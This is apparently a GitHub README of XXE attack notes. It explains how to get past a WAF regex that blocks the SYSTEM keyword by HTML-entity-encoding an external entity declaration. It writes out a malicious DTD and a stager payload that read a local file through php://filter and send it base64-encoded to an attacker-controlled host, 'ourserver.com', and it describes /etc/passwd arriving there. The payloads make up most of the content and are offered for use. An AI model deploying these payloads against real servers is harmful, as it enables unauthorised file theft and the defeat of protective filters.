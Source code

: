 # XXE-Notes

### WAF bypass

A useful technique to bypass WAF forbidden words like SYSTEM is using html entities, the technique here can be used to avoid using blacklisted words.

This is also valid for a regex in this case we will bypass the following regex `/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im`

This regex is stopping us to create a external entity with the following structure: 

`<!ENTITY file SYSTEM "file:///path/to/file">` 
To avoid this we are going to use html entities to encode `<!ENTITY % dtd SYSTEM "http://ourserver.com/bypass.dtd" >` so we can call our dtd in a server we control.

The html entity equivalent is `&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;`

The idea here is to use this entity to bypass the SYSTEM word to call our controlled dtd. This way we only have to bypass the WAF/REGEX one time and we can craft any entity we need on our dtd.

#### Server payload

We have to serve our dtd like the following:
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/path/to/file">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://ourserver.com/bypass.xml?%data;'>">
%abt;
```
We can modify this payload as we need as this will not be blocked by the WAF or regex on the victim.

#### Stager payload
The following payload will call our external dtd bypassing the SYSTEM blacklisted word:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;" >%a;%dtd;]><data><env>&exfil;</env></data>
```

And all we need to do is sending the payload and wait for the exfil in our server
![Bypass ](img/exfil.png)
And we can see is the base64 of the /etc/passwd
